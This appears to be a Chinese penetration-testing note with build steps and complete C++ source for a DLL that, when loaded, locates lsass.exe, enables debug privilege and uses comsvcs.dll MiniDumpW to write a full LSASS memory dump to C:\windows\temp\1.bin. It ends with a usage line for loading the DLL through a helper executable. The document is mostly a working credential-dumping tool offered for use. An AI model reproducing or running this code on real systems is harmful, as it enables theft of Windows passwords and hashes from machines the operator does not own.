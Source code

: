 	https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/315.png)

	将三个文件下载到本地，使用visual studio进行编译，需要修改了几个地方。
	（1）添加如下代码
	#pragma comment(lib, "Rpcrt4.lib") （引入Rpcrt4.lib库文件）
	（2）将.c文件后缀改成.cpp （使用了c++代码，需要更改后缀）
	（3) 编译时选择x64
	编译得到exe文件
	Visual studio创建c++空项目
	配置类型选dll
	字符集选Unicode，调试器选64位
	Dll保存在C:\\windows\\temp\\1.bin
```cpp
#include <cstdio>
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <string>  
#include <map>  
#include <TlHelp32.h> 

#pragma comment(lib,"Dbghelp.lib")
using namespace std;

int FindPID()
{
	PROCESSENTRY32 pe32;
	pe32.dwSize = sizeof(pe32);

	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hProcessSnap == INVALID_HANDLE_VALUE) {
		cout << "CreateToolhelp32Snapshot Error!" << endl;;
		return false;
	}

	BOOL bResult = Process32First(hProcessSnap, &pe32);

	while (bResult)
	{
		if (_wcsicmp(pe32.szExeFile, L"lsass.exe") == 0)
		{
			return pe32.th32ProcessID;
		}
		bResult = Process32Next(hProcessSnap, &pe32);
	}

	CloseHandle(hProcessSnap);

	return -1;
}

typedef HRESULT(WINAPI* _MiniDumpW)(
	DWORD arg1, DWORD arg2, PWCHAR cmdline);

typedef NTSTATUS(WINAPI* _RtlAdjustPrivilege)(
	ULONG Privilege, BOOL Enable,
	BOOL CurrentThread, PULONG Enabled);

int dump() {

	HRESULT             hr;
	_MiniDumpW          MiniDumpW;
	_RtlAdjustPrivilege RtlAdjustPrivilege;
	ULONG               t;

	MiniDumpW = (_MiniDumpW)GetProcAddress(
		LoadLibrary(L"comsvcs.dll"), "MiniDumpW");

	RtlAdjustPrivilege = (_RtlAdjustPrivilege)GetProcAddress(
		GetModuleHandle(L"ntdll"), "RtlAdjustPrivilege");

	if (MiniDumpW == NULL) {

		return 0;
	}
	// try enable debug privilege
	RtlAdjustPrivilege(20, TRUE, FALSE, &t);

	wchar_t  ws[100];
	swprintf(ws, 100, L"%hd%hs", FindPID(), " C:\\windows\\temp\\1.bin full");

	MiniDumpW(0, 0, ws);
	return 0;

}
BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
	switch (ul_reason_for_call) {
	case DLL_PROCESS_ATTACH:
		dump();
		break;
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}

```
	>xxx.exe c:\xx\xx\xx.dll使用绝对路径
